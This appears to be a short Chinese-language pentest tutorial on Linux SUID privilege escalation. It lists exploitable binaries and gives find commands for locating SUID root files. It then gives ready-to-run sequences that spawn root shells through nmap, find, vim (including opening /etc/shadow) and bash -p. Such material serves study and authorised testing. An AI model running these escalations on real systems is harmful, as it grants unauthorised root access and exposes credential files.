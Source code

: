 ﻿﻿### SUID提权

suid是linux的一种权限机制，具有这种权限的文件会在其执行时，使调用者暂时获取该文件拥有者的权限。如果拥有SUID权限，那么就可以利用系统中的二进制文件和工具来进行root提权

已经知道可以用来提权的linux文件可行列表

- Nmap
  
- Vim
  
- find
  
- Bash
  
- More
  
- Less
  
- Nano
  
- cp
  

使用命令发现是否存在可执行的SUID文件，利用命令找到root权限文件

```
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/d3c1da9c70ca4fef8849c2318c9a28b5.png)


#### 上述文件提权方式

nmap

```bash
nmap -V
nmap --interactive
nmap> !sh
sh-3.2# whoami
root
```

find

```bash
touch pentestlab
find pentestlab -exec "/bin/sh" \;
```

vim

```bash
vim.tiny /etc/shadow
vim.tiny
# Press ESC key
:set shell=/bin/sh
:shell
```

bash

```bash
bash -p
bash-3.2# id
uid=1002(service) gid=1002(service) euid=0(root) groups=1002(servcice)
```
